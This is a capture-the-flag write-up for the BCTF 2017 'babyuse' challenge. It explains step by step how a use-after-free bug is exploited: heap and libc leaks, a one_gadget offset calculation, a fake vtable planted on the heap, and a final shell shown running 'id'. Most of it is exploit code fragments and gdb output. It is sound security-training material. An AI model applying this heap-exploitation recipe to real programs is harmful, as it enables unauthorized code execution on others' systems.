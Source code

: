 ## UAF - Babyuse - BCTF 2017
**Requirements:**

- An address on heap to store the fake vtable.
- The address of libc to find the what should inside the fake vtable.
- On the heap: fake vtable, an object with the fake vtable address as the name.
- Create the chunck with specific size and order to get control of them.

### I. Leak the address in the heap

1. Let's use pwngdb to print the base address of heap

	```
	Code:
	     buy(10, "AAAABBBB") #Index 0
 	     gdb.attach(p)
	Gdb: 
		 (gdb) heap
		 heapbase : 0x5655a000
	```
	
2. Because the Use-After-Free vulnerability in the `drop()` function, we need to what's the address means when we leak it. Besides, when we use the `rename()` function **it will release the old name chunck and apply a new name chunck**. Plus the attribute of the fastbin, when we drop the object with the new name, the name chunck will return to the fastbin and add to the first of the link list. The result of this is that, when we call the `use()` function the first line of the output is the name of the gun, but this is the new name of the gun, when we drop the gun, the new name chunck will be released and the `FD` pointer will point to old name chunck. So, we can print the address from the heap.

3. To find the address of the chunck, let's put the breakpoint after the `drop()` function and print the heapinfo.

	```
	(gdb) heapinfo
	(0x10)fastbin[0]: 0x5655ea30 --> 0x5655ea20 --> 0x0
	(0x18)fastbin[1]: 0x5655ea08 --> 0x0
	```
 - This is the result after the free, `0x5655ea08` is the address of the object, `0x5655ea20` is the old name chunk and `0x5655ea30` is the new name chunck.

 - After `buy()`, it will apply for a chunck to store the name. 

	```
	(gdb) x/20x 0x5655ea20
	0x5655ea20:	0x00000000	0x00000011	0x41414141	0x42424242 <-- old name
	0x5655ea30:	0x00000000	0x000205d1	0x00000000	0x00000000
	0x5655ea40:	0x00000000	0x00000000	0x00000000	0x00000000
	```

 - Then, the `rename()` will apply a new chunck to store the new name and free the old name chunck back to the fastbin.

	```
	(gdb) x/20x 0x5655ea20
	0x5655ea20:	0x00000000	0x00000011	0x00000000	0x42424242 <-- old name
	0x5655ea30:	0x00000000	0x00000011	0x43434343	0x44444444 <-- new name
	0x5655ea40:	0x00000000	0x000205c1	0x00000000	0x00000000
	```

 - After the `drop()`, the program will also free the new name chunck and this will connect with the old name chunck which is the same size. So, the `FD` pointer in the new name chunck will contains the address of the old name chunck.

	```
	(gdb) x/20x 0x5655ea20
	0x5655ea20:	0x00000000	0x00000011	0x00000000	0x42424242 <-- old name
	0x5655ea30:	0x00000000	0x00000011	0x5655ea20	0x44444444 <-- new name
	0x5655ea40:	0x00000000	0x000205c1	0x00000000	0x00000000
	```

### II. Leak the `execv()` function address in libc.so.6

1. Because the libc.so.6 file is provided by the challenge, we can find the address of the `execv()` function in it and put the address in a fake vtable of the class and call it. So, the first step is to leak the base address of libc. 

2. To leak something of libc, we need to apply the memory from the **main_arena**, which means we need to create two long name objects and free the first chunck then use it.

```
#Secend UAF, leak the libc
buy(256, "AAAABBBB") #Index 0
buy(256, "CCCCDDDD") #Index 1
select(0)
drop(0)
libcleak = u32(use())
```	
**Q: Why we need to create the second chunck? (unsortbin struct)**

3. Then, we need to do some math to calculate the base address of libc then plus the offset of `execv()` to make our payload. Because the function address in libc is fixed, we can directly print the base address of libc locally and calculate the offset between the address we leak and the base address of libc.

	```
	Code result:
	[+] Starting local process './babyuse': pid 9737
	Heap Leak: 0x5655ea20
	Libc Leak: 0xf7e3f7b0
	(gdb) libc
	libc : 0xf7c8d000
	```
	We can find the offset is `hex(0xf7e3f7b0 - 0xf7c8d000) = 0x1b27b0`
	
4. At last, we need to find the offset of `execv()` address in libc. Address of `execv()` = Leaked address of libc - offset of base address. We can use the tool `one_gadget` to find the magic gadget in libc.
 
	```
	one_gadget -f libc.so 
	
	0x3ac69	execve("/bin/sh", esp+0x34, environ)
	constraints:
	  esi is the GOT address of libc
	  [esp+0x34] == NULL
	  
	0x5fbc5	execl("/bin/sh", eax)
	constraints:
	  esi is the GOT address of libc
	  eax == NULL
  
	0x5fbc6	execl("/bin/sh", [esp])
	constraints:
	  esi is the GOT address of libc
	  [esp] == NULL
	```

5. We will use the first gadget found by one_gadget and the offset is 0x3ac69. So we can calculate the address in payload: `libcleak - 0x1b27b0 + 0x3ac69`

	```
	[+] Starting local process './babyuse': pid 9737
Heap Leak: 0x5655ea20
Libc Leak: 0xf7e3f7b0
Libc Base: 0xf7c8d000
One_gadget 0xf7cc7c69
[*] Stopped process './babyuse' (pid 9737)
	```
	
### III. Craft the fake vtable and intent object

1. We need to craft the payload with the one_gadget address as a name of a gun. Put the payload on the heap.

	```
	vtable = p32(onegaddr) + p32(onegaddr) + p32(onegaddr) + p32(onegaddr) + p32(onegaddr)
	buy(32, vtable) #Index 0
	buy(32, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA") #Index 2
	buy(32, "BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB") #Index 3
	```
	Then, what's the heap look like?
	
	```	
	0x5655ea10:	0x00000000	0x5655ea48	0x0000000f	0x0000000f <- 1st UAF gun object
	0x5655ea20:	0x00000000	0x00000011	0x00000000	0x42424242 <- 1st UAF old name chunck we used
	0x5655ea30:	0x00000000	0x00000011	0x5655ea20	0x44444444 <- 1st UAF new name chunck we used
	0x5655ea40:	0x00000000	0x00000029	0xf7cc7c69	0xf7cc7c69 <- 3rd UAF gun 0 name Start of our payload
	0x5655ea50:	0xf7cc7c69	0xf7cc7c69	0xf7cc7c69	0x00000000
	0x5655ea60:	0x00000000	0x00000000	0x00000000	0x00000019
				vtable		name
	0x5655ea70:	0x56556d30	0x5655ea88	0x0000000f	0x0000000f <- 3rd UAF gun 2 object
	0x5655ea80:	0x00000000	0x00000029	0x41414141	0x41414141 <- 3rd UAF gun 2 name
	0x5655ea90:	0x41414141	0x41414141	0x41414141	0x41414141
	0x5655eaa0:	0x41414141	0x41414141	0x00000000	0x00000019
				vtable		name
	0x5655eab0:	0x56556d30	0x5655eac8	0x0000000f	0x0000000f <- 3rd UAF gun 3 object
	0x5655eac0:	0x00000000	0x00000029	0x42424242	0x42424242 <- 3rd UAF gun 3 name
	0x5655ead0:	0x42424242	0x42424242	0x42424242	0x42424242
	0x5655eae0:	0x42424242	0x42424242	0x00000000	0x00000061
		...
	0x5655eb50:	0x56556d30	0x5655eb68	0x0000000f	0x0000000f <- 2nd UAF gun object
	0x5655eb60:	0x00000000	0x00000109	0x43434343	0x44444444 <- 2nd UAF gun 1 name
	0x5655eb70:	0x00000000	0x00000000	0x00000000	0x00000000
	0x5655eb80:	0x00000000	0x00000000	0x00000000	0x00000000
	0x5655eb90:	0x00000000	0x00000000	0x00000000	0x00000000
	0x5655eba0:	0x00000000	0x00000000	0x00000000	0x00000000
	```

2. Second, we need to free those objects by a specific order. (0->2->3). This order will cause the reverse order in the fastbins link list (3->2->0). So, next time when we apply a short name gun(less than 20->size of gun object), it will use the gun 3's object space of the new object and gun 2's object space for the name.

	```
	payload = p32(heapdest) + p32(heapdest)
	buy(16, payload)
	```
	
	The name of the new object is our payload, which contains the fake vtable address(what we find in the memory `0x5655ea40:	0x00000000	0x00000029	0x00000000	0xf7cc7c69`). So, when we fourth use the UAF to trigger the `use()` function, it will look through the fake vtable and wait for our option(this time is 2 or 3, which is the second function in the vtable, because the first one got replace by `free()`).
	`vtable: vtable = p32(onegaddr) + p32(onegaddr) + p32(onegaddr) + p32(onegaddr) + p32(onegaddr)`
	
	```
	0x5655ea10:	0x00000000	0x5655ea48	0x0000000f	0x0000000f <- 1st UAF gun object
	0x5655ea20:	0x00000000	0x00000011	0x00000000	0x42424242 <- 1st UAF old name chunck we used
	0x5655ea30:	0x00000000	0x00000011	0x5655ea20	0x44444444 <- 1st UAF new name chunck we used
	0x5655ea40:	0x00000000	0x00000029	0x00000000	0xf7cc7c69 <- 3rd UAF gun 0 name Start of our payload
	0x5655ea50:	0xf7cc7c69	0xf7cc7c69	0xf7cc7c69	0x00000000
	0x5655ea60:	0x00000000	0x00000000	0x00000000	0x00000019
	0x5655ea70:	0x5655ea4c	0x5655ea4c	0x00000000	0x0000000f <- 4th gun name (3rd UAF gun 2 object)
	0x5655ea80:	0x00000000	0x00000029	0x5655ea40	0x41414141 <- 3rd UAF gun 2 name
	0x5655ea90:	0x41414141	0x41414141	0x41414141	0x41414141
	0x5655eaa0:	0x41414141	0x00000041	0x00000000	0x00000019
				vtable		name
	0x5655eab0:	0x56556d30	0x5655ea70	0x0000000f	0x0000000f <- 4th UAF gun object (3rd UAF gun 3 object)
	0x5655eac0:	0x00000000	0x00000029	0x5655ea80	0x42424242 <- 3rd UAF gun 3 name
	0x5655ead0:	0x42424242	0x42424242	0x42424242	0x42424242
	0x5655eae0:	0x42424242	0x00000042	0x00000000	0x00000061
		...
	0x5655eb50:	0x56556d30	0x5655eb68	0x0000000f	0x0000000f <- 2nd UAF gun object
	0x5655eb60:	0x00000000	0x00000109	0x43434343	0x44444444 <- 2nd UAF gun 1 name
	0x5655eb70:	0x00000000	0x00000000	0x00000000	0x00000000
	0x5655eb80:	0x00000000	0x00000000	0x00000000	0x00000000
	0x5655eb90:	0x00000000	0x00000000	0x00000000	0x00000000
	0x5655eba0:	0x00000000	0x00000000	0x00000000	0x00000000
	```
### IV. Finaly trigger the vulnerability
	```
	./exploit.py 
	[+] Starting local process './babyuse': pid 41084
	Heap Leak: 0x5655ea20
	Libc Leak: 0xf7e3f7b0
	Libc Base: 0xf7c8d000
	One_gadget 0xf7cc7c69
	[*] Switching to interactive mode
	$ 2
	$ id
	uid=1000(kevin) gid=1000(kevin) groups=1000(kevin),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
	```
